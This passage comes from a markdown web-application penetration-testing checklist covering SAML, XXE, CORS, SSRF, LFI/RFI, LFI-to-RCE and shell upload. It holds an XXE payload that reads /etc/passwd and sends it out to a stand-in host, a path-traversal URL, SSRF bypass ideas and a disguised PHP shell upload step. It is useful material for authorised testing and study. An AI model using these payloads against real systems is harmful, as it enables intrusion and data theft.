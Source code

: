         - [ ]  Try To Figure Out If The Server Checks The Identity Of The Signer OR Not?
        - [ ]  Try To Inject XXE Payloads At The Top Of The SAML Response
        - [ ]  Try To Inject XSLT Payloads Into The Transforms Element As A Child
        Node Of The SAML Response
        - [ ]  If Victim Can Accept Tokens Issued By The Same Identity Provider That Services
        Attacker, So You Can Takeover Victim Account
        - [ ]  While Testing SSO Try To search In Burp Suite About URLs In Cookie Header e.g.
        Host=IP; If There Is Try To Change IP To Your IP To Get SSRF
    - **XML Injection**
        - [ ]  Change the content type to text/xml then insert below code. Check via repeater
        
        ```markup
        <?xml version="1.0"?>
        <!DOCTYPE foo [
        <!ELEMENT foo (#ANY)>
        <!ENTITY % xxe SYSTEM "file:///etc/passwd">
        <!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
        ```
        
        - [ ]  Blind XXE with out-of-band interaction
    - **Cross-origin resource sharing (CORS)**
        - [ ]  Errors parsing Origin headers
        - [ ]  Whitelisted null origin value
    - **Server-side request forgery (SSRF)**
        - [ ]  Try basic localhost payloads
        - Bypassing filters
            - [ ]  Bypass using HTTPS
            - [ ]  Bypass with [::]
            - [ ]  Bypass with a domain redirection
            - [ ]  Bypass using a decimal IP location
            - [ ]  Bypass using IPv6/IPv4 Address Embedding
            - [ ]  Bypass using malformed urls
            - [ ]  Bypass using rare address(short-hand IP addresses by dropping the zeros)
            - [ ]  Bypass using enclosed alphanumerics
        - Cloud Instances
            - [ ]  AWS
            - [ ]  Google Cloud
            - [ ]  Digital Ocean
            - [ ]  Azure
        - [ ]  Bypassing via open redirection
    - **Local File Inclusion (LFI)**
        - [ ]  Use `ffuf` tools
        - [ ]  Try to change the local path
        - [ ]  Apply https://www.example.com/index.php?page=../../../../../../../../../../../../etc/passwd
        - [ ]  **Domain root = we can upload file**
        - [ ]  Use the LFI payload list
        - [ ]  Test LFI by adding a null byte at the end
    - LFI To R**emote Code Execution (**RCE)
        - [ ]  Use burp Suit
        - [ ]  Proxy-HTTP history-send to **repeater**
        - [ ]  change page=**/etc/passwd** , find “**root/bin/bash**” in response if not find send to **intruder**
        - [ ]  use LFI RCE payload for sniper attack and send request to repeater
        - [ ]  change ‘’**etc/passwd’’ to  ‘’proc%2fself%2fenviron’’**
        - [ ]  For more follow: https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload
    - **Test For Remote File Inclusion (RFI)**
        - [ ]  Look for RFI keywords
        - [ ]  Try to change the remote path
        - [ ]  Use the RFI payload list
    - **File Upload & Download Testing**
        - Shell Upload
            - [ ]  upload the malicious file `malware.php.jpg` to the archive upload functionality and observe how the application responds